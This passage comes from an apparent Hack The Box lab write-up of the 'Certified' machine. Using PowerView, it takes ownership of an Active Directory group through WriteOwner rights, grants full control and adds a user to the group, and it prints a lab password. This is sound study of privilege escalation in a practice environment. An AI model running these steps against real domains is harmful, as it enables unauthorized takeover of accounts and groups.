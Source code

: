 
## Foothold
Since Judith had **WriteOwner** permissions on the **Management** security group, I am going to add her account as the owner of this security group.

```shell
(LDAPS)-[DC01.certified.htb]-[CERTIFIED\judith.mader]
PV > Get-DomainObjectOwner -Identity Management
cn                    : Management
distinguishedName     : CN=Management,CN=Users,DC=certified,DC=htb
objectSid             : S-1-5-21-729746778-2675978091-3820388244-1104
sAMAccountName        : Management
Owner                 : CERTIFIED\Domain Admins (S-1-5-21-729746778-2675978091-3820388244-512)

```

Let's change the owner to Judith

```shell
┌──(frodo㉿kali)-[~/hack-the-box/certified]
└─$ powerview certified/judith.mader:'judith09'@10.129.231.186
Logging directory is set to /home/frodo/.powerview/logs/10.129.231.186
(LDAPS)-[DC01.certified.htb]-[CERTIFIED\judith.mader]
PV > Set-DomainObjectOwner -TargetIdentity Management -PrincipalIdentity judith.mader                                                                                      
[2024-11-12 11:14:54] [Set-DomainObjectOwner] Changing current owner S-1-5-21-729746778-2675978091-3820388244-512 to S-1-5-21-729746778-2675978091-3820388244-1103
[2024-11-12 11:14:55] [Set-DomainObjectOwner] Success! modified owner for CN=Management,CN=Users,DC=certified,DC=htb
(LDAPS)-[DC01.certified.htb]-[CERTIFIED\judith.mader]
PV > Get-DomainObjectOwner -Identity Management
cn                    : Management
distinguishedName     : CN=Management,CN=Users,DC=certified,DC=htb
objectSid             : S-1-5-21-729746778-2675978091-3820388244-1104
sAMAccountName        : Management
Owner                 : CERTIFIED\judith.mader (S-1-5-21-729746778-2675978091-3820388244-1103)
```

Since now Judith is the owner of the group, let's get full control of the group.

```shell
PV > Add-DomainObjectAcl -TargetIdentity Management -PrincipalIdentity judith.mader -Rights fullcontrol
[2024-11-12 11:16:34] [Add-DomainObjectACL] Found target identity: CN=Management,CN=Users,DC=certified,DC=htb
[2024-11-12 11:16:34] [Add-DomainObjectACL] Found principal identity: CN=Judith Mader,CN=Users,DC=certified,DC=htb
[2024-11-12 11:16:34] Adding FullControl to S-1-5-21-729746778-2675978091-3820388244-1104
[2024-11-12 11:16:34] DACL modified successfully!
```

Then I added Judith as a member of Management Group
```shell
PV > Add-GroupMember -Identity Management -Members judith.mader
[2024-11-12 11:17:40] User judith.mader successfully added to Management
(LDAPS)-[DC01.certified.htb]-[CERTIFIED\judith.mader]
PV > Get-DomainGroupMember Management
GroupDomainName             : Management
GroupDistinguishedName      : CN=Management,CN=Users,DC=certified,DC=htb
MemberDomain                : certified.htb
MemberName                  : judith.mader
MemberDistinguishedName     : CN=Judith Mader,CN=Users,DC=certified,DC=htb
MemberSID                   : S-1-5-21-729746778-2675978091-3820388244-1103

GroupDomainName             : Management
GroupDistinguishedName      : CN=Management,CN=Users,DC=certified,DC=htb
MemberDomain                : certified.htb
```